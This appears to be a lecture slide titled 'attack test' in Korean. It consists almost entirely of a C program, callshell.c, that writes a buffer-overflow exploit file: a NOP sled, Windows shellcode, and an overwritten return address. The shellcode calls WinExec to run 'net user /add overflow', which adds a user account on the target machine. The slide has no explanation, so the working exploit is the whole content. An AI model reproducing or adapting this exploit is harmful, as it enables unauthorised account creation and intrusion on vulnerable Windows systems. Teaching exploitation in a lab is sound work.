

# 공격 테스트
====================== 소스 코드 : callshell.c ======================
#include <stdio.h>

unsigned char shellcode[]=
"\x54\x55\x8B\xEC\x33\xFF\x57\xC7\x45\xFB\x66\x6C\x6F\x77\xC7\x45"
"\xF7\x6F\x76\x65\x72\xC7\x45\xF3\x61\x64\x64\x20\xC7\x45\xEF\x65"
"\x72\x20\x2F\xC7\x45\xEB\x74\x20\x75\x73\xC6\x45\xEA\x65\xC6\x45"
"\xE9\x6E\x83\xEC\x14\x6A\x05\x8B\xFC\x83\xC7\x05\x89\x7D\xE0\x83"
"\xEF\x09\x8B\xE7\xB8\x4D\x11\x86\x7C\xFF\xD0"
"\xB8\xA2\xCA\x81\x7C\x33\xFF\x57\xFF\xD0";

int main()
{
	char buf[530];
	FILE *fp;
	int newreturn = 0x0012fd80;
	memset(buf, 0x90, 530);
	memcpy(buf, shellcode, strlen(shellcode));
	memcpy(&buf[516], &newreturn, 4);
	fp =  fopen("c:\\data.txt", "w+");
	fputs(buf, fp);
	fclose(fp);
}